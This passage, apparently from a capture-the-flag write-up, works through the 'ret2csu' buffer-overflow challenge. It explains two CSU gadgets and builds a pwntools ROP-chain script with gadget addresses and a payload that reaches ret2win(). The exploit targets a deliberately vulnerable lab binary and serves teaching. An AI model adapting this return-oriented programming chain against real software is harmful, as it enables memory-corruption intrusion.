 Gadget 2:
![](gadget2.png)

So, what will these allow us to do? Well, we can see that the second gadget moves items from registers `r15`, `r14`, and `r13d` into the `rdx`, `rsi`, and `edi` registers respectively. This is exactly what we want! Furthermore, gadget one will allow us to populate `r15`, `r14`, and `r13d` in the first place! 

# Exploitation
So, the payload is looking like this... 
1. 40 bytes to overflow the buffer up the `rip`,
2. The address of gadget 1 followed by our three arguments and then some junk to satisfy `r12`, `rbp`, and `rbx` (since they won't end up being moved anywhere we need)
3. Our second gadget to move our arguments into the proper registers
4. And then the address of `ret2win()`!!

This all checks out right? Well, as we'll find out, not entirely. But lets set up the start of a python script and we can get debugging. 

The start of the script is pretty basic. We'll define our executable as an `ELF` object, make it so we can interact with it as a process, and define our offset. 

```python
from pwn import *
elf = context.binary = ELF('ret2csu')
p = elf.process()
offset = 40
```

Next we can dig into `gdb` and define the addresses of those gadgets as well as the address of `ret2win()`. 

```python
pop_gadgets = 0x40069a
mov_gadgets = 0x400680
ret2win = 0x400510
```

And then we can craft our payload and try to send it! 

```python
payload = flat([
	offset * 'a',
	pop_gadgets,
	0x0,
	0x1,
	0x2,
	0xdeadbeefdeadbeef,
	0xcafebabecafebabe,
	0xd00df00dd00df00d,
	mov_gadgets,
	ret2win
])

p.sendline(payload)
p.interactive()
```
